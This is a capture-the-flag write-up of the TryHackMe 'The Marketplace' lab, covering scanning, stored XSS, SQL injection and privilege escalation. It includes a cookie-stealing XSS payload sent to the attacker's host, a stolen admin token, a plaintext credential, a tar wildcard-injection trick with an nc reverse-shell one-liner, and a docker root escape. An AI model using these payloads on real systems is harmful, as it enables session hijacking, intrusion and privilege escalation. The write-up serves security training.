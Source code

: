 ```yaml
---
title: Walkthrough - The Marketplace
published: true
---
```


Tags: Web, XSS, Docker, SQLi.
Description: Boot2root machine for FIT and bsides guatemala CTF.
Difficulty: Easy
URL: [https://tryhackme.com/room/glitch](https://tryhackme.com/room/glitch)

* * *

## Notes

- `sudo nmap -sC -sV -sT -O 10.10.144.85 -oN nmap_2 -p22,80`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp open  http    nginx 1.19.2
|_http-server-header: nginx/1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
```

- `gobuster dir -u http://10.10.144.85 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 100`

```
/login                (Status: 200) [Size: 857]
/admin                (Status: 403) [Size: 392]
/images               (Status: 301) [Size: 179] [--> /images/]
/Admin                (Status: 403) [Size: 392]               
/Login                (Status: 200) [Size: 857]               
/new                  (Status: 302) [Size: 28] [--> /login]   
/stylesheets          (Status: 301) [Size: 189] [--> /stylesheets/]
/signup               (Status: 200) [Size: 667]                    
/messages             (Status: 302) [Size: 28] [--> /login]        
/ADMIN                (Status: 403) [Size: 392]                    
/New                  (Status: 302) [Size: 28] [--> /login]        
/NEW                  (Status: 302) [Size: 28] [--> /login]        
/Messages             (Status: 302) [Size: 28] [--> /login]        
/Signup               (Status: 200) [Size: 667]                    
/SignUp               (Status: 200) [Size: 667]                    
/LOGIN                (Status: 200) [Size: 857]                   
```

Visiting the website we have a MARKETPLACE wow.

Initially I though I could get XSS sending `<SCRIPT>alert("XSS");//\<</SCRIPT>` through the messages to myselfs created account, but the messages seemed to be parsed and turned to URL safe text. Did however get XSS "adding a new listing" with `<SCRIPT>alert("XSS");//\<</SCRIPT>` then visiting the item `http://10.10.144.85/item/4` 

![0xskar](/assets/the-marketplace01.png)

Also, visiting the pages through burpsuite we can see this is giving us a cookie. Visiting /admin it tells us that we are not authorized to view it. On the listing page there is a Report listing to admins.

Setup listening port on kali linux `nc -nvlkp 6969`

Add a new listing with this xss `<script>document.location='http://10.2.127.225:6969/XSS/grabber.php?c='+document.cookie</script>`

![0xskar](/assets/the-marketplace02.png)

We get our cookie sent through the netcat listner. 

We can then goto `http://10.10.144.5/report/3` to report the listing to the admin.

![0xskar](/assets/the-marketplace03.png)

Boom, we receive the admin cookie!

```
GET /XSS/grabber.php?c=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2NjIxNDM1ODF9.2p7iQfwFvsVpB2ESVvWMkYRzhoFsh0vN1OMIWBYUp6k 
```

Putting this into the firefox inspector lets us access the admin page.

* * * 

## Flag 1

![0xskar](/assets/the-marketplace04.png)

* * * 

## User.txt

- `sqlmap -u http://10.10.144.207/admin?user= --cookie=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsIjI0ODgwMTl9.UNKrJC_3ISOyESabw6njQvthxzjMto0z8Oma0whOsUU -a`

my sqlmap isnt working qq i only get 403 responses...

![0xskar](/assets/the-marketplace05.png)

- `jake:@b_ENXkGYUCAv3zJ`

* * * 

## Root.txt

Now that we're loggin in as jake we run `sudo -l`

```
User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```

backup.sh contains

```
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

This script calls tar to create a backup file. we do not have write access to it but it is also calling to tar without using the path so if we create a file `tar` inside of backups we should be able to privesc. But this is getting us nowhere. 

After some searching I [found an article on Wildcard Injection](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/). Because this tar is calling a wildcard "`*`" we can use this. An asterisk matches any number of character in a filename, including none. 

```
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.2.127.225 6666 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
```

So, creating these files with no name creates files that the astrisk will call to get the tar to execute our shell we created, thus getting us a reverse shell.

```
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory
```

and we get a revshell to michael. 

running `id` michael has a docker id. checking gtfo bins and we get a root shell with 

- `docker run -v /:/mnt --rm -it alpine chroot /mnt sh`

* * * 

